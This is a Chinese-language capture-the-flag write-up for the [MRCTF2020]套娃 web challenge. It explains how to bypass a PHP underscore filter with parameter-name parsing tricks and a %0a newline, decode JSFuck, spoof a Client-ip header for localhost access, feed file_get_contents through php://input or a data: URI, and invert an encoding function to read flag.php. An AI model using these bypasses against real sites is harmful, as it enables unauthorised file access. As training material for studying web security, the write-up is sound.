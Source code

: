 # \[MRCTF2020]套娃

## \[MRCTF2020]套娃

## 考点

* PHP参数污染
* PHP的字符串解析特性
* JSFuck

## wp

F12看到源码

```php
//1st
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

`$_SERVER['QUERY_STRING']`是请求附带的参数，不能有`_`，但是后一段代码要求GET参数`b_u_p_t`，这是PHP的参数污染问题，用<mark style="color:orange;">`b[u[p[t`</mark>，发现不行，那还可以用<mark style="color:red;">`空格`</mark>或者<mark style="color:red;">`.`</mark>。又要求参数不等于23333，但是要和它长得一模一样，则可以使用%0a绕过`preg_match`

payload：`b u p t=23333%0a`

来到下一层`secrettw.php` ，F12看到一堆JSFuck编码，放到控制台执行，给了提示`post me Merak`

![](<../../.gitbook/assets/image (5).png>)

POST Merak可以得到源码

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>  
```

IP限制可以使用`Client-ip: 127.0.0.1`绕过，`file_get_contents($_GET['2333'])`可以使用`php://input`或者`data:text/plain,todat is a happy day`绕过，最后再反写`change`函数就可以了

`change`函数的加密逻辑就是 `C = P + 2x`，反过来不难写出解密逻辑

```php
function dechange($v){ 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return base64_encode($re); 
}
```

flag.php的密文为`ZmpdYSZmXGI=`

![](<../../.gitbook/assets/image (1).png>)

## 小结

1. [利用PHP的字符串解析特性Bypass](https://www.freebuf.com/articles/web/213359.html)
2. 对于本地IP的绕过，可以使用`X-Forwarded-For`或者`Client-ip`
